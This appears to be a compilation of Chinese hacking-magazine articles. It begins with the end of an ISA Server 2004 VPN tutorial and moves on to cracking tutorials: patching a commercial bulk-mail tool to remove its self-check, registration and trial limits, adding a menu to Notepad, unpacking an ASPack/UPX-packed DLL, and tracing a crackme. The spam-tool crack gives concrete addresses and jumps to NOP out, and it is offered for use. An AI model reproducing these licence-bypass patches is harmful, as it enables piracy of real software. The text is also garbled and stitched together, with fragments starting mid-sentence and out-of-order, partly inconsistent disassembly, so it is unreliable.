服务器 IP 为 10.1.1.1！ISA 为 VPN 又开了一个网段，这时候的 ISA 应该有多少个网段了？有4个：外网、内网、DMZ，还有就是 VPN 的了。在这里，ISA 2004 把 VPN 认为是一个独立的网段。连上 VPN 服务器后，我们要干点什么呢？当然是进行资源访问和共享文件的访问了，现在企业都有这样的需求。但 ISA 2004 默认是不允许进行共享访问的，因此还需要给 VPN 客户端创建一个允许访问的防火墙规则。建立规则很简单，前几篇文章都有提到过，起个规则名字，比如命名为“VPN访问”，动作为允许，最为关键的就是设置通信协议。我们应该设置为什么样的通信协议呢？我们都知道，文件共享走的通信端口是 TCP 445 端口，只要开放这个端口就可以了。在 ISA 2004 中，微软已经定义好一个协议了，叫做 Microsoft CIFS (TCP)，注意这里可要选择 TCP 协议，而不是 UDP 协议，如图11所示。


图9


图10


图11

此时，我们的 VPN 客户端得到的 IP 地址为 10.1.1.2，选好协议单击“下一步”，这时候要设置访问的源和目的地址了。这里注意一下，以前我们建立的访问都是从内到外，或者从外到内的，这里我们设置的源一定要为 VPN 客户端，目的一定是内部了，这个不再说了。

为什么说一定要是 VPN 客户端？前面我们说过了，ISA 2004 把 VPN 认为是一个独立的网段，所以这里必须是 VPN 客户端。之后我们就一路下一步直到完成并应用规则，应用规则后就可以进行网络共享访问了，如图12所示。至此，整个 VPN 的实验就算成功了。


## VPN部署实例

现在大多数企业内部广泛应用 VPN 技术，这些企业应用 VPN 技术不仅是为了以上简单的文件共享访问，在我接触的客户群体中，应用 VPN 技术的主要目的就是为了做 ERP 实施。客户要求在企业内部署各种 ERP（企业资源计划系统）、HR（企业人事管理系统）以及 CRM（客户关系管理系统）软件，比如知名度很高的 SAP、用友、速达等管理软件。下面我将以速达财务系统为示例做一个部署演示。

首先打开 ISA 2004，在防火墙策略中要添加 ERP 的策略。你可以通过创建新的服务器发布规则来允许 VPN 客户端访问 ERP 系统，也可以创建一个新的访问规则来允许 VPN 客户端访问 ERP 系统。

如图13所示，通过创建新的访问规则来允许 VPN 客户端访问 ERP 系统。和以前讲的创建访问规则方法一样，输入一个便于识别的规则名称后，单击“下一步”按钮，然后设置所选协议。在所选协议中并没有我们需要的 ERP 通信协议，我们必须自己创建。


在添加协议窗口中单击“新建”，在出现的新建协议向导中输入协议名称，单击“下一步”按钮，如图14和图15所示。


在协议连接中选择 TCP 协议，方向为入站，端口范围为 3000～3008，这个是大多数速达系列软件默认的范围（如果你有修改过 ERP 系统中默认端口，请输入修改后的端口），如图16所示。成功添加协议后，就可以在“用户定义”中看见你所创建的协议，如图17所示。之后的事情就非常简单了：在选择协议中添加刚才创建的协议，然后继续单击“下一步”，直到完成防火墙规则向导并应用该防火墙规则。


> 创建该防火墙规则时一定要注意访问的源地址和目的地址：访问源为 VPN 客户端，目的为内部。如果你还有其他需求，可以继续添加源和目的地址，但 VPN 客户端到内部的访问一定是要有的，否则 VPN 客户端是不能成功连接的。

防火墙规则创建并应用完毕后，我们就可以使用 VPN 客户端来连接内部网络的 ERP 系统了，如图18和图19所示。

整个部署过程到此完成，通过 ISA 2004 的 VPN 功能来实现企业 ERP 部署是比较简单的。


做 VPN：首先要保证你有固定的外网 IP 地址，当然也可以通过动态域名解析服务来实现动态 IP 地址与域名的绑定，但是稳定性是必须要考虑到的；如果很难做到的话，就只有选择硬件设备了。

以上就是 ISA 2004 企业版的 VPN 简单企业应用和部署的演示，接下来我将讲解 ISA 2004 的安全隔离 VPN 功能。该实验有一定的难度，失败个三、五次都是很正常的现象。

## 安全隔离VPN实例

> 广告时间：请不要走开，广告过后精彩马上回来……

本人在做这个实验的时候出了不少问题，在整个配置过程中感觉没有出什么差错，但经过多次尝试，发现在修改注册表时少了一个字母，做人真“失败”呀。所以大家在做这个实验时一定要细心、细心、再细心；失败后多做分析和检查，有很多时候都是设置错误导致失败的。

安全隔离 VPN 就是网络访问隔离，只有当符合某些网络安全条件时才可以正常地使用网络资源，否则不能正常访问资源。在企业中有很多的移动办公用户，这些用户可能经常出差在外，他们的计算机中可能感染一些病毒或者不经常进行 Windows Update 更新，当这些用户通过 VPN 连接到企业内部时，就很有可能给企业的内部网络带来网络安全威胁，所以要对这些客户端进行强制的安全检查。在 ISA 2004 中已经集成了这个功能，作为管理员，只需要做一些设置就可以启用该功能，它通过对接入企业的客户端进行脚本检测，如果接入的客户端没有通过安全检查时，会被 ISA 放入到被隔离的 VPN 网络中；只有当客户端符合安全脚本检查后，ISA 才会把它移动进 VPN 网络，并允许正常访问。下面将针对检查客户端是否开启 ICF 防火墙为例做讲解。

我们要启动网络访问隔离功能时，必须要安装有 Remote Access Quarantine Agent 服务，用系统安装盘就可以安装这个组件了。也可以自己编写批处理安装，安装完毕后将该服务启动，不然后面的实验会出错的，如图20和图21所示。

安装好 RQS 服务后，我们开始修改注册表文件，进入 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Rqs\` 中，创建两个键值。首先建立多字符串值，命名为 AllowedSet，数值设置为 RQVersion3，这个数值不是自己写的，它是安全检查脚本中定义的数值，大家可以打开检查脚本来进行查看。再建立字符串值，命名为 Authenticator，数据值要去指定 ISA 2004 安装路径下的一个名为 vpnplgin.dll 的动态链接库，路径为 `C:\Program Files\Microsoft ISA Server\vpnplgin.dll`，如图22所示。


修改完注册表后，我们还需要修改 ISA 中的设置。首先要创建防火墙规则，使 ISA 允许 RQS 通知程序访问网络。创建该规则的方法和创建速达 ERP 软件的规则一样，都需要自己添加协议，但这里的协议设置为 TCP 协议，方向为出站，端口号为 7250，如图23所示。

再有一点要注意的，就是访问规则“源”为“被隔离的 VPN 客户端”，“目的”为“本地主机”。当启用 VPN 隔离功能时，所有接入的客户端都被 ISA 放入被隔离的网络中，所以源一定要设置为“被隔离的 VPN 客户端”，隔离的 VPN 客户端是要和 ISA 主机进行通信来确定是否符合安全要求，所以目的也就是“本地主机”了，如图24所示。接下来就是要启用隔离功能。


VPN 功能，在 ISA 中进入“网络”配置页面中，可以看见最下面有一个“被隔离的 VPN 客户端”，双击打开属性设置，将“使隔离的 VPN 客户端隔离”启用就可以了；同时可以设置隔离访问时间，当达到隔离访问时间时，客户端连接会自动被断开，如图25所示。


至此，ISA 主机上的设置就告一段落了，下面要做的就是制作一个客户端用的连接工具，该工具中包含了安全检查脚本等。要制作该连接工具，需要使用系统中的一个组件，叫做连接管理器管理工具包，可以在系统盘中安装该组件，如图26所示。安装完毕后，打开该工具，通过向导模式来制作连接工具，在设置服务名和文件名时可以根据自己需要来设置，方便识别就可以了，基本都是下一步，需要修改的地方会给出说明的，如图27和图28所示。


接下来就是设置连接程序连接 VPN 服务器的 IP 地址，这个地址将来是封装的。将“自动下载电话簿更新”选项取消，然后继续单击“下一步”，当出现自定义动作设置时，做一些简单配置，这个动作就是指定 VPN 客户端执行脚本检查的动作了。我们必须建立一个操作，描述内容自己定义，运行程序为 rqc.exe，该程序是用来和服务器的 rqs.exe 进行通信的，参数为 `%DialRasEntry% %TunnelRasEntry% %Domain% %UserName%`，这些参数在检查脚本中有定义，操作类型选择为“后连接”，因为执行该动作是在客户端接入成功后做的检查。


图29


图30


图31


图32


图33


图34


图35

该文件夹中的内容就是客户端需要的连接工具安装包，将该安装包全部分发给客户端并进行安装，安装后就会出现一个新的连接，如图33所示。现在用户就可以通过这个新的连接进行 VPN 拨号了，成功拨号后在 ISA 中可以看见登录客户端为被隔离的客户端，同时在客户端上会给出提示，如果客户端的 ICF 没有启用会给出安全警告提示，并通过检测时也会给出提示，如图34和图35所示。在出现图34的提示时，你的客户端会在一定时间后自动断开连接，这个时间就是刚才在 ISA 中设置的时间。在真实企业环境中，可以给被隔离的 VPN 客户端较长的访问时间，同时在企业中专门配置一个隔离网络，在隔离网络中放置文件服务器，这样被隔离的客户端可以登录到该服务器上安装补丁、更新杀毒软件等操作，当达到安全级别时允许访问正常网络资源。

上面给大家做的只是一个演示，脚本的编写是最麻烦的，要考虑的问题有很多。如果你的水平比较高的话，可以在生产环境中应用；如果只是学习的话，还是在虚拟机上练吧。微软现在已经正式发布 ISA 2006 了，大家可以到微软的网站下载 180 天评估版，包括有标准版和企业版的，同时在本文中涉及到的安全检查脚本也可以在微软 TechNet 网站下载到。

Icefire，用邮件来宣传自己的产品或网站，是很多人喜欢做的一件事……泛滥的垃圾邮件却严重影响了网民们的正常生活，而大量的邮件群发工具却还不断地开发出来，本文就选择了其中一个作为破解练习的目标。

适合读者：破解爱好者，程序员  
前置知识：汇编基本阅读能力

## 赛点网络宣传邮箱版2.03

##### 脱壳破解全过程

文/图 卢志辉（CGN破解组织）

下载“赛点网络宣传邮箱版2.03 Build 2005.11.23”原版程序，先用 PEiD v0.94 查看是否加壳，查到程序加了“Upack2.x - 3.x Heuristic Mode -> Dwing”壳。直接用 PEiD 自带插件“PEID 通用脱壳器”把壳给脱了，运行后自动退出，说明有自检，继续用 OD 跟踪分析。

序了，明显上面的几个跳转都是关键跳，直接把 [005CFF30] 的 `jbe short ...005CFF43` 改成 `jmp short ...005CFF43`，保存后程序可正常运行。接下来继续破解注册：程序启动会提示未注册信息，标题显示“软件未注册”，关于里显示剩余 30 天提示，对这些位置继续跟踪（图1、图2）。

```asm
005E464C 55              push ebp
005E464D 8BEC            mov ebp,esp
005E464F 83C4 F0         add esp,-10
005E4652 B8 D43D5E00     mov eax,FlashSen...
...
005E4668 E8 43B8FEFF     call FlashSen.005CFEB0
; [程序运行到这里直接退出]
```


F8 单步跟踪到 [005E4668] 这里程序自动退出，判断 CALL 里是自检过程。重新载入程序到 [005E4668]，F7 跟进后在 [005CFF25] 发现对比代码。

用 OD 重新载入程序，bp MessageBoxA 下断，F9 运行后在 [77E13327] 附近断下，继续跟踪到 [00474A79]，整体跟踪过程中未再发现能跳过退出的跳转。


```asm
005CFF20 E8 432DE3FF     call FlashSen.00402070
005CFF25 3B5424 04       cmp edx,dword ptr ss:[esp+4]
005CFF29 75 09           jnz short ...005CFF34
005CFF2B 3B0424          cmp eax,dword ptr ss:[esp]
...
005CFF30 76 11           jbe short ...005CFF43
...
005CFF43 33C0            xor eax,eax
```

```asm
77E13327 55              push ebp
77E13328 8BEC            mov ebp,esp
...
00474A79 50              push eax
00474A7A E8 D936F9FF     call <jmp.&USER32.MessageBoxA>
...
```

F8 找到继续单步跟进，到 [005CFF3E] 这里直接退出程序。省略部分代码……```asm
005D810B  5A               pop edx
005D810C  E8 83C8E9FF      call FlashSen.00474994
005D8111  3BC2             cmp eax, edx
005D8113  A1 20CE4100      mov eax, dword ptr ds:[41CE20]
005D8118  E8 E3B8E2FF      call FlashSen.00403A00
```

```asm
005DCB53  8D55 EC          lea edx, dword ptr ss:[ebp-14]
005DCB56  33C9             xor ecx, ecx
005DCB58  B8 14CD5D00      mov eax, FlashSen...
...      ; "注册用户：%s"
005DCBD5  B8 2CCD5D00      mov eax, FlashSen...
...      ; "试用剩余天数：%s"
```

一直返回到 [005D8111] 这里，发现上面有直接跳到此处的跳转，往上跟踪，如图3所示。

```asm
005D8041  E8 ...           call FlashSen.005DE360
005D8046  E9 ...           jmp FlashSen.005D8111
005D804B  8D55 BC          lea edx, dword ptr ss:[ebp-44]
```

# 图3

看到 [005D8046] 此处往下还有跳转点，继续往上看，如图4所示。

```asm
005D7F8B  E8 ...           call FlashSen.0052DEC0
005D7F90  84C0             test al, al
005D7F92  0F84 ...         je FlashSen.005D804B
005D7FA1  E8 ...           call FlashSen.00409A8C
005D7FA9  837D DC 00       cmp dword ptr ss:[ebp-24],0
005D7FAD  0F84 ...         je FlashSen.005D804B
```

# 图4

```asm
// 发现 [005D7F92] 与 [005D7FAD] 两个关键跳转，直接 NOP 掉
005D7F92  90               nop
005D7F93  90               nop
...
005D7FAD  90               nop
005D7FAE  90               nop
...
```

找到了两个关键字符串信息“注册用户：%s”和“试用剩余天数：%s”，来到对应地址 [005DCB58] 与 [005DCBD5]，看看它们之间的跳转点。如图5、图6所示。

```asm
005DCBF0  E8 ...           call FlashSen.0052DEC0
005DCBF7  0F84 ...         je FlashSen.005DCB84
005DCB09  E8 ...           call FlashSen.00409A8C
005DCB0E  837D F0 00       cmp dword ptr ss:[ebp-4],0
005DCB12  74 70            je short FlashSen.005DCB84
```

# 图5

```asm
005DCB77  8B80 ...         mov eax, dword ptr ds:[eax+318]
005DCB7D  E9 ...           call FlashSen.005EBD18
005DCB82  EB 73            jmp short FlashSen.005DC8FF
005DCB84  A1 C4C15E00      mov eax, dword ptr ds:[5EC1C4]
```

# 图6

跟启动时的验证过程一样，有两个关键跳转 [005DCBF7] 和 [005DCB12]，一样把它们都 NOP 掉，保存文件，F9 运行程序查看效果。关于窗口的“试用剩余天数”变成了“注册用户：”，OK，通过了。再试用一下所有功能，测试通过，没有任何使用限制，但程序窗口里还是没有注册用户名的信息。看起来不顺眼，我们就去试搞一下吧。OD 重新载入程序，运行到之前 NOP 掉的几个关键跳处后，一步步地跟踪留意数据的变化。

修改后的代码，改完保存文件，然后 OD 重新载入程序，F9 直接运行看看效果，发现启动时的未注册信息提示消失了，但标题的[软件未注册]也变成了[注册用户：]了。现在就只剩下“关于”里的时间限制信息了，破解未完全。继续跟踪，我们用 OD 的搜索 ASCII 字符串功能查找“试用剩余天数”。

```asm
005DCB42  50               push eax
005DCB43  8B83 DC030000    mov eax, dword ptr ds:[ebx+3DC]
005DCB49  8B40 54          mov eax, dword ptr ds:[eax+54]
005DCB4C  8945 EC          mov dword ptr ss:[ebp-14],eax
005DCB4F  C645 F0 0B       mov byte ptr ss:[ebp-10],0B
```

```asm
005D7FF1  8D55 C4          lea edx, dword ptr ss:[ebp-3C]
005D7FF4  33C9             xor ecx, ecx
005D7FF6  58               pop eax
005D7FF7  E8 ...           call FlashSen.0040AF38
005D7FFC  8B55 D0          mov edx, dword ptr ss:[ebp-30]
005D8000  E8 ...           call FlashSen.00404B50
```

启动跟踪来到第二个关键跳下面的地方 [005D7FFC]，发现数据窗口寄存了“[注册用户：]”字符串信息。好，就从这入手了，往下找程序空闲位置，我就选择了在 [005E46C0] 写入注册用户信息。

```asm
005E46C0 ...
005E46C1 0000 add byte ptr ds:[eax],al
...
// 鼠标选择 [005E46C0]-[005E46DE]，输入十六进制...
...
005D8001 90 nop
005D8002 90 nop
005D8003 90 nop
005D8004 90 nop
...
```

```asm
[5E46E1] ; FlashSen.005E46C4
005E46F7 58 pop eax
005E46F8 E8 ... call FlashSen.00404B50
005E46FD E9 ... jmp FlashSen.005D8005
// 修改后的代码，保存文件...
005DCB58 B8 ... mov eax,...
005DCB5D E8 ... call FlashSen.0040AF38
...
```

按照上面的操作来到 [005DCB62]，和前面一样，找个程序的空闲位置写入注册用户信息，然后跳转过去，这里就省略不写了，自己研究一下吧！如图7所示。


按上面流程把程序修改完成以后，直接保存就能使用了，祝大家使用愉快！

#### 浅析逆向工程应用
##### 添加菜单

文／图 lnn1123[OCN破解组]

##### 前言

Crack 技术发展大概有三个阶段：一、爆破；二、注册机、脱壳；三、逆向工程……下面就演示一下给程序添加菜单的过程。

##### 工具

- Windows 自带的记事本（逆向的对象）
- 查壳工具：PEiD
- 调试工具：OllyDbg 1.10
- 资源工具：ResHacker

##### 大概思路

- 修改资源添加菜单。
- 寻找相应的消息处理地方。
- 判断菜单功能所需函数是否在引入函数中存在，不存在则手动添加。
- 添加代码的存放点（本例中没添加区段，在段的空隙里）。
- 添加菜单的消息响应代码。


##### 修改资源

一般来说逆向的第一步就是查看资源……请出 ResHacker，载入记事本，如图1所示。


图1

我们看到有一个 Menu 的目录，这个目录下面就是菜单，基本格式是这样的：

```cpp
POPUP "文件(&F)" // 一级菜单
{
    MENUITEM "新建(&N)\tCtrl+N", 1 // 菜单 ID
}
```

知道基本格式，那么添加菜单就很容易了，我们在“格式”与“查看”之间插入一个菜单：

```cpp
POPUP "鸣叫(&C)" // 一级菜单
{
    MENUITEM "鸣叫(&C)", 98 // 这个资源 ID 不能和已有 ID 一样
}
```

保存后，再看一下程序，是这个样子，如图2所示。


图2

多了一个菜单“鸣叫”，现在界面上多了一个菜单，它却不会有任何作用，因为还没有给它添加作用代码。要添加代码，必须跟踪定位到相应的消息处理过程。

##### 跟踪消息处理过程

跟踪程序的消息处理过程经常用 SendMessage 函数：

The SendMessage function sends the specified message to a window or windows...  
The PostMessage function, in contrast, posts a message to a thread's message queue and returns immediately.

翻译：SendMessage 函数给一个窗口或多个窗口发送一个特定的消息……相对应的 PostMessage 函数是把消息发送到线程的消息队列里，并马上返回。

```c
LRESULT SendMessage(
  HWND hWnd,    // handle of destination window
  UINT Msg,     // message to send
  WPARAM wParam,// first message parameter
  LPARAM lParam // second message parameter
);

Return Values:
The return value specifies the result of the message processing and depends on the message sent.
```

知道了吧，看到记事本的输入表里有 SendMessageW 这个函数，对这个函数下断，断在这里。

```asm
0100350C  /CALL DWORD PTR DS:[<&USER32.SendMessageW>] ; SendMessageW
01003512  /JMP notepad.010031C6
01003517  |MOV EAX, EDI
...
Case 319 (WM_APPCOMMAND)
...
Case 233 (WM_DROPFILES)
...
Case 117 (WM_INITMENUPOPUP)
...
CALL DWORD PTR DS:[<&USER32.EnableMenuItem>] ; EnableMenuItem
...
(反汇编代码长段)
```

```asm
...（左栏大段反汇编代码，包含 WM_SYSCOMMAND / WM_COMMAND 分支判断、DefWindowProcW、MessageBoxW 调用等）...
```

以上是消息处理过程，添加代码就在这里。定位到这里，那么我们直接进入 `CALL 01002919`，因为这里是处理消息的地方。

```asm
01002919  PUSH EBP
0100291A  MOV EBP, ESP
0100291C  SUB ESP, 254
01002922  PUSH EBX
01002923  PUSH ESI
01002924  MOVZX ESI, WORD PTR SS:[EBP+C]
```

```asm
...（右上代码框）...
SS:[EBP+C]  ; [EBP+C] 就是资源 ID
MOVZX ESI, WORD PTR SS:[EBP+C]
XOR EBX, EBX
Switch (cases 1..303)
CMP ESI, 40
...
```

这里就是根据资源 ID 判断用户按的什么按钮，然后做相应的处理。要找的地方找到了，只要在这里加入新菜单的处理就 OK 了。

##### 输入函数的查找

我们需要的函数具体的 MSDN 原型：

> MessageBeep()。MSDN 给出了以下原型：  
> `BOOL MessageBeep(UINT uType);`

载入程序后右击 → 搜索 → 全部交叉引用调用 → 看到 `MessageBeep` 函数，双击来到这里。

```asm
01003267  MOV EDI, DWORD PTR DS:[<&USER32.MessageBeep>]
0100326D  CALL EDI
01003270  PUSH ESI
01003271  CALL EDI
```

鼠标到 `01003267` 处，提示窗口显示目标地址。到这里我们知道了 `MessageBeep` 函数调用的样子了，添加代码。

```asm
01002922  PUSH EBX
01002923  PUSH ESI
01002924  MOVZX ESI, WORD PTR SS:[EBP+C]
...
0100292B  JMP 01007DC8   ; 跳到我的代码处
...
```

找了一块空地 `01007DC8` 处，让程序运行到这里的时候先跳到我的代码处，然后继续程序的代码。下面是 `01007DC8` 处的代码。

```asm
01007DC8  CMP ESI, 62
01007DCB  JE SHORT ...
```

```asm
... 01007DCD 33C0 XOR EAX,EAX
... 01007DCF 83FE 40 CMP ESI,40
... 01007DD2 E9D592ABFFFF JMP ...
... 01007DDA 60 PUSHAD
... 01007DDB 68 EC7D0001 PUSH ...
... 01007DE0 FF15... CALL DWORD PTR DS:[<&USER32.MessageBeep>]
... 01007DE6 EB E5 JMP SHORT ...
```

```asm
01007DEA 00 DB 00
01007DEB 00 DB 00
01007DEC 31 DB 31 ; CHAR '1'，调用函数参数
```

好了，这样修改后，OD 右击“复制到可执行文件”保存后，你点击菜单就会有响声了。

##### 小结

文章介绍了添加菜单的一般方法，虽然添加的菜单功能很简单，但它只是一个例子。如果你想要你要的功能，只要添加你的代码就行了。如果你添加的代码比较多，区段的空隙不够的话，就要自己添加一个区段了。如果你碰到其他的程序需要添加菜单的时候，本文可以参考一下。如果你发现了什么更好的方法，一定要发表出来啊，资源共享嘛。

IceFire：魔王以前一直在脚本的圈子里活跃，现在却转行研究起了破解和脱壳，而且这一次手脱的是动易的壳，看得出他下了很多功夫去学，精神可嘉。

适合读者：破解爱好者，程序员

前置知识：汇编基本阅读能力

## ESP组件
### 动易组件观壳


文／图 混世魔王

动易程序众所周知，是 DLL 组件 + ASP 代码的，要在服务器上安装完成之后，网站程序才可以运行。我觉无聊，就安装了文件监控器（Filemon）看了看它的安装过程。

……要是有猫腻，我的服务器不就挂了？说归说，其实动易程序一路走过这么多年，它的努力和诚信是大家都看到的。

##### 软件介绍

Filemon 是一个出色的绿色文件系统监视软件，它将所有与文件相关的操作（如读取、修改、出错信息等）全部记录下来以供用户参考，并允许用户对记录的信息进行保存、过滤、查找等处理，这就为用户对系统的维护提供了极大的便利。如图1所示。

最近在学习汇编，看到程序就 PEiD 查壳，有点当初玩脚本，看到 asp?id= 就想提交个 and 1=1 的味道。在 system32 搜索“PE_”找了好几个动易的 DLL 组件，随便找一个吧，PE_GuestBook.dll，看名字应该是动易留言本的程序，不管它，PEiD 看看它的壳，如图2所示。


图1


图2

从 Filemon 中可以看到动易组件，有的是写到 system32 系统文件目录下的，汗，要是动易组件有一点点……

看到了吧？ASPack 2.12 -> Alexey Solodovnikov，是加了 ASPack 2.12 的壳。我们采用 OLLYDBG 载入，选择文件类型“动态连接库”就可以了。载入会提示要 loaddll.exe 运行动态连接库，没有关系，点确定就行了。

```asm
110B5001 > 60 PUSHAD ; OD 载入后停在这里（ASPack 类型入口）
110B5002 E8 03000000 CALL PE_Guest...
110B5007 E9 ... JMP ...
```

```asm
110B500C  55            PUSH EBP
110B500D  C3            RETN
```

对于 AsPack 这样的壳，我们可以用 ESP 定律来脱壳，对 ESP 定律不懂可以去查查相关的资料。按 F8 一次，查看 OD 右边寄存器 ESP 值。

```text
寄存器
EAX C0000034
ECX 00010101
EDX FFFFFFFF
EBX 00000000
ESP 0006FB88
EBP 0006FBC4
ESI 0006FBB8
```

在命令窗口下输入“hr 6fb88”，这里解释一下：hr：硬件读断点；hw：硬件写断点；dd：查看数据。用 hr 命令一步到位，然后回车，按 F9 运行。程序来到这里，记得要撤掉硬件断点，如图3所示。

```asm
110B53B0  75 08         JNZ SHORT PE_Guest.110B53BA
110B53B2  B8 01000000   MOV EAX,1
110B53B7  C2 0C00       RETN 0C
110B53BA  68 601F0B11   PUSH PE_Guest.110B1F60
110B53BF  C3            RETN
```

有过手脱 AsPack 壳经验的朋友应该都知道，这里马上就要到出口点的地方了。在 110B53B0 这里断下，继续 F8 一次，到了 110B53BA，再 F8 两次，就跳出 AsPack 了。


```asm
110B1F60  807C24 08 01  CMP BYTE PTR SS:[ESP+8],1
110B1F65  0F85 9A010000  JNZ PE_Guest.110B2105
110B1F6B  60            PUSHAD
```

一般 AsPack 壳到这里就到程序的 OEP 了。但是现在到这里又有一个入栈，有猫腻？先 dump 出来用 PEiD 查看。如图4所示。


“UPX 0.80-1.24 DLL->Markus & Laszlo”。晕，太不厚道，还有一个 UPX 的壳。没关系，ESP 定律再来一遍吧。

```asm
110B1F65  0F85 9A010000  JNZ PE_Guest.110B2105
110B1F6B  60            PUSHAD ; UPX 的入口点
110B1F6C  BE 00F00811   MOV ESI,PE_Guest.1108F000
110B1F71  8DBE 0020F7FF LEA EDI,DWORD PTR DS:[ESI+FF72000]
110B1F77  57            PUSH EDI
```

对于 UPX 的壳，我们同样可以用 ESP 定律来脱。F8 来到 110B1F6C，它的 ESP 值是 6fb88，执行命令“hr 6fb88”回车，F9 运行。去掉硬件断点，F8 两下，就来到程序的 OEP。

```asm
110023B8  5A           POP EDX
110023B9  68 44F80911  PUSH PE_Guest.1109F844
110023BE  68 48F80911  PUSH PE_Guest.1109F848
110023C3  52           PUSH EDX
```

程序的 OEP 是 23B8，用 OD 或者 LordPE dump 出来，用 ImportREC 修复一下。如图5所示。


用 ImportREC 修复，要先运行加壳的文件，这里是 DLL 文件，所以我们加载 loaddll.exe，在里面选择其中的模块 Pe_guestbook.dll 文件。如图6所示。


在 OEP 输入我们刚才记录的 OEP，23B8，然后点“自动查找 IAT”，接着点“获取输入表”，最后点“修复转储文件”，修复我们脱壳的程序。如图7所示。


可以看提示，Pe_guestbook_.dll 保存成功。下面，我们再用 PEiD 看看程序。如图8所示。


大功告成，狐狸现原形，原来是 VB 写的 DLL 组件。附：我在破解方面还在学习中，有不足之处还请多多指教，同时也希望借黑防认识一些对汇编这方面感兴趣的朋友。

Icefire：以前在 Windows 98 中调试程序，受到的限制很少，所以当 Windows 2000 推出的时候，让破解爱好者颇为头疼，很多东西几乎要重新学习一遍。这篇文章就用了一个实例来介绍怎么在 Windows XP 中利用万能断点找出关键跳转，很适合新手阅读。

- 适合读者：破解爱好者，程序员
- 前置知识：汇编基本阅读能力

#### 在 Windows XP 中的万能断点

文／图 Moodsky[OCN破解组织]


大家都知道，我们在 Windows 98 下做软件调试时有一个 API 函数 HMEMCPY（俗称为万能断点），这个函数在 Kernel32.dll 中，其原型如下：

```c
void hmemcpy(hpvDest, hpvSource, cbCopy)
void _huge* hpvDest;           // 目的数据地址
const void _huge* hpvSource;   // 源数据地址
long cbCopy;                   // 数据大小(Bytes)
```

它的工作原理就是将内存中的一块数据拷贝到另一个地方。大家每使用 SoftICE、OD 等调试工具时它都成了首选的断点，但在 2000 以后版本的系统里它却失去了原有的意义，下面我就介绍一下如何在 XP 中利用万能断点去调试出一个 Crackme 的关键跳转。

在 Windows XP 系统中找万能断点的方法有很多，看雪学院外文翻译区里就有一篇“Point-h in WinXP tutorial”的文章写得不错，但不适合初学者。有兴趣却没看过的朋友可以去读读。网上还有一种方法，就是在 User32 模块中搜索十六进制字符串 `F3 A5 8B C8 83 E1 03 F3 A4 E8`，找到的地址就是 XP 系统唯一的一处万能断点，下面我们一步一步做。

用 OD 打开所要调试的 `crac.exe`，右键单击汇编区域，在“查看”菜单里选择“模块 User32”。如图1所示。


利用 Ctrl+B 快捷键，查找 `F3 A5 8B C8 83 E1 03 F3 A4 E8`，点击确定，如图2所示。


由上一步操作可以进入下图，记录万能断点，如图3所示。


```asm
77D3353D  F3:A5  REP MOVS DWORD PTR ES:[EDI], DWORD PTR [ESI]
```

这个就是我的系统的万能断点 point-h。接下来我就利用万能断点来寻找 Crackme 的关键比较。Crackme 是 OCN 的 lfq168 做的，不要怪我盗用啊！CTRL+F2 重新加载一下程序，F9 运行。首先填写好注册信息，不要点击注册，如图4所示。


然后我们再按照找 point-h 的第一步进入 User32 模块中，然后快捷键 Ctrl+G，在出现窗口的 Combobox 控件中填入我的 point-h——`77D3353D`，点击确定，如图5所示。


在万能断点上 F2 下断，如图6所示。


回到 Crackme 窗口点击注册，程序被 OD 断了下来，看右上的寄存器窗口出现了我的用户名，如图7所示。点击 F9 键直到第一次出现注册码为止……


在寄存器上单击右键，选择“在转存中跟随”。如图8所示。按 F8 到 point-h 下面第一个的 Call 处，看转存中数据。如图9、图10所示。在伪注册码（789789789）上下内存访问断点，F9 运行，如图11所示。


程序被 OD 断在 66061223 处，如图12所示。


下面我们 F8 回到主进程空间，如图13所示。


到这里回到了主进程空间，也就是回到了算法里，让我们 F2 记录一下断点，Ctrl+F2 重新加载程序，F9 运行，填好信息后注册，被 OD 断在 00402CE4，然后 F8 单步继续。

```asm
00402CE4  3BC7  cmp eax, edi  ; 被断在这里
00402CE6  DBE2  fclex
00402CE8  7D12  jge short ...
00402CF0  8B85 78FEFFFF mov eax, dword ptr ss:[ebp-188]
00402D02  50    push eax
00402D03  FF15 10104000 call dword ptr ds:[...vbaLenBstr]
...
00402D50  FF15 38104000 call dword ptr ds:[...]
```

```asm
[<&MSVBVM60.__vbaVarForInit>]  ; For 循环
00402D56  8D8D 78FEFFFF lea ecx, dword ptr ss:[ebp-188]
00402D5C  8985 3CFDFFFF mov dword ptr ss:[ebp-2C4], eax
00402D62  FF15 F8104000 call dword ptr ds:[<&MSVBVM60.__vbaFreeStr>]
...
00402D80  0F84 89010000 je ...
...
00402FA5  FF15 10104000 call dword ptr ds:[<&MSVBVM60.__vbaLenBstr>]
...
00403022  85C0 test eax,eax
00403024  0F84 BD050000 je ...
...
004035E2  E9 35FAFFFF jmp ...
004035E7  8D85 ECFDFFFF lea eax, dword ptr ss:[ebp-214]
...
0040363E  85C0 test eax,eax
```

```asm
00403640 ... je 004038F5
...
004038EA call dword ptr ds:[<&MSVBVM60.__vbaVarForNext>]
004038F0 jmp 0040363E
...
00403967 call dword ptr ds:[<&MSVBVM60.__vbaVarTstEq>]
...
00403981 call dword ptr ds:[<&MSVBVM60.__vbaFreeVar>]
0040398A je 00403A2F
...
00403995 mov eax, 0A
```

```asm
0040399A mov dword ptr ss:[ebp-1CC], ecx
004039A0 mov dword ptr ss:[ebp-1BC], ecx
...
004039DE call dword ptr ds:[<&MSVBVM60.__vbaVarDup>]
...
00403A02 call dword ptr ds:[<&MSVBVM60.#595>] ; rtcMsgBox
...
00403A26 call dword ptr ds:[<&MSVBVM60.__vbaFreeVarList>]
00403A2F xor edi, edi
00403A31 mov dword ptr ss:[ebp-4], edi
```

到了这里，这篇文章也就到了结尾了，希望能带给大家更多的启发。我们已经通过了 Windows XP 万能断点的亲身体会，其实方法与工具的结合要灵活运用，由于每款软件的编制手法不同，所以调试方法有很多种，但终究有一种适合你。

- 适合读者：初级破解爱好者
- 前置知识：OllyDbg 基本使用方法

#### OllyDbg VS SoftICE
#### 用户级程序调试秘笈

文／图 Redoc


